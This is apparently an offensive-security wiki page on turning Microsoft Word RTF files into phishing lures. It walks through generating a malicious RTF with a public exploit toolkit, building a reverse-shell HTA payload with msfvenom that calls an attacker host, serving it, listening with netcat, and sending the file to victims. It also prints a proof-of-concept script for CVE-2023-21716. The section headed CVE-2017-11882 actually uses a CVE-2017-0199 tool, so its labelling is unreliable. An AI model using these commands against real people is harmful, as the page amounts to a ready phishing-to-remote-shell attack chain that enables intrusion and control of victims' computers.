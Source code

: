 # MS Word - RTF Files RCE

## Theory

RTF files are widely used in business communications for their rich formatting capabilities, making them a perfect disguise for malicious payloads. CVE-2023-21716 and CVE-2017-11882 are vulnerabilities within Microsoft Office that can be leveraged to execute arbitrary code when victims open a compromised RTF file.

The page is about weaponize RTF files for effective phishing campaigns

## Practice

### CVE-2017-11882&#x20;

{% tabs %}
{% tab title="Exploit" %}
We may use [this exploit](https://github.com/bhdresh/CVE-2017-0199) (python) which provides a quick and effective way to exploit Microsoft RTF RCE vulnerability.

Firts, generate the malicious RTF file

```bash
python2.7 cve-2017-0199_toolkit.py -M gen -w bad.rtf -u http://<ATTACKING_IP>/bad.hta -t RTF -x 0
```

The exploit will call and execute an HTA file, you may generate it as follow

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f hta-psh -o bad.hta
```

Host `bad.hta` on your webserver and start a listener

```bash
#Start the webserver to host the bad.hta file
python3 -m http.server 80

#Start listener
rlwrap nc -lvnp <ATTACKING_PORT>
```

Finally, send the `bad.rtf` file to the target. Once victim will open malicious RTF file, you will get a reverse shell.
{% endtab %}
{% endtabs %}

### CVE-2023-21716

{% tabs %}
{% tab title="Exploit" %}
The exploit isn't weaponized yet, but here is the python POC

```python
open("file.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
```
{% endtab %}
{% endtabs %}
